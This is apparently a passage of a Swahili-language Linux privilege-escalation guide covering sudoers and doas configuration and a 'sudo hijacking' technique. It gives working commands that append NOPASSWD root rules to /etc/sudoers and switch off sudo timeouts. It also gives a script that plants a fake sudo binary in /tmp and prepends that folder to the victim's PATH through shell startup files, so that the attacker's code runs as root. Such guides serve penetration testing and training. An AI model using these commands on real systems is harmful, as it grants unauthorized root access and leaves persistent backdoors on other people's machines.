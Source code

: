 Faili `/etc/sudoers` na faili ndani ya `/etc/sudoers.d` zinaweka ni nani anaweza kutumia `sudo` na jinsi. Faili hizi **kwa chaguo-msingi zinaweza kusomwa tu na mtumiaji root na kundi root**.\
**Ikiwa** unaweza **kusoma** faili hii unaweza kuwa na uwezo wa **kupata taarifa za kuvutia**, na kama unaweza **kuandika** faili yoyote utaweza **escalate privileges**.
```bash
ls -l /etc/sudoers /etc/sudoers.d/
ls -ld /etc/sudoers.d/
```
Ikiwa unaweza kuandika, unaweza kutumia vibaya ruhusa hii.
```bash
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers.d/README
```
Njia nyingine ya kutumia vibaya ruhusa hizi:
```bash
# makes it so every terminal can sudo
echo "Defaults !tty_tickets" > /etc/sudoers.d/win
# makes it so sudo never times out
echo "Defaults timestamp_timeout=-1" >> /etc/sudoers.d/win
```
### DOAS

Kuna baadhi ya mbadala kwa binary ya `sudo` kama `doas` kwa OpenBSD; kumbuka kukagua usanidi wake katika `/etc/doas.conf`
```
permit nopass demo as root cmd vim
```
### Sudo Hijacking

Ikiwa unajua kuwa **mtumiaji kawaida hujiunga na mashine na hutumia `sudo`** kuinua ruhusa na umepata shell ndani ya muktadha wa mtumiaji, unaweza **kuunda executable mpya ya sudo** ambayo itatekeleza kodi yako kama root kisha amri ya mtumiaji. Kisha, **badilisha $PATH** ya muktadha wa mtumiaji (kwa mfano kwa kuongeza path mpya katika .bash_profile) ili wakati mtumiaji anapotekeleza sudo, executable yako ya sudo itatekelezwa.

Kumbuka kwamba ikiwa mtumiaji anatumia shell tofauti (si bash) utahitaji kubadilisha faili nyingine ili kuongeza path mpya. Kwa mfano[ sudo-piggyback](https://github.com/APTy/sudo-piggyback) hubadilisha `~/.bashrc`, `~/.zshrc`, `~/.bash_profile`. Unaweza kupata mfano mwingine katika [bashdoor.py](https://github.com/n00py/pOSt-eX/blob/master/empire_modules/bashdoor.py)

Au kuendesha kitu kama:
```bash
cat >/tmp/sudo <<EOF
#!/bin/bash
/usr/bin/sudo whoami > /tmp/privesc
/usr/bin/sudo "\$@"
EOF
chmod +x /tmp/sudo
echo ‘export PATH=/tmp:$PATH’ >> $HOME/.zshenv # or ".bashrc" or any other

# From the victim
zsh
echo $PATH
sudo ls
```
## Maktaba Iliyoshirikiwa
